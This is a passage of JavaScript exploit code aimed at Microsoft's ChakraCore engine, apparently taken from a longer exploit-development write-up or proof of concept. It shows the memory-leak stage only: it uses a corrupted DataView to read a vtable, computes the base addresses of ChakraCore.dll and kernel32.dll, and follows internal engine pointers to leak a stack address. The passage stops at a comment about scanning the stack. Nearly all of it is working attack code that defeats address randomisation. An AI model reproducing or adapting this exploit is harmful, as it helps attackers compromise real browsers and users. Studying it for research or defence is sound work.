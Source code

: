 ```javascript
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));

    // Leak type->javascriptLibrary (lcoated at type+0x8)
    javascriptLibrary = read64(typeLo+0x8, typeHigh);

    // Leak type->javascriptLibrary->scriptContext (located at javascriptLibrary+0x450)
    scriptContext = read64(javascriptLibrary[0]+0x450, javascriptLibrary[1]);

    // Leak type->javascripLibrary->scriptContext->threadContext
    threadContext = read64(scriptContext[0]+0x3b8, scriptContext[1]);

    // Leak type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread (located at threadContext+0xc8)
    stackAddress = read64(threadContext[0]+0xc8, threadContext[1]);

    // Print update
    print("[+] Leaked stack from type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread!");
    print("[+] Stack leak: 0x" + hex(stackAddress[1]) + hex(stackAddress[0]));

    // Compute the stack limit for the current thread and store it in an array
    var stackLeak = new Uint32Array(0x10);
    stackLeak[0] = stackAddress[0] + 0xed000;
    stackLeak[1] = stackAddress[1];

    // Print update
    print("[+] Stack limit: 0x" + hex(stackLeak[1]) + hex(stackLeak[0]));

    // Scan the stack
```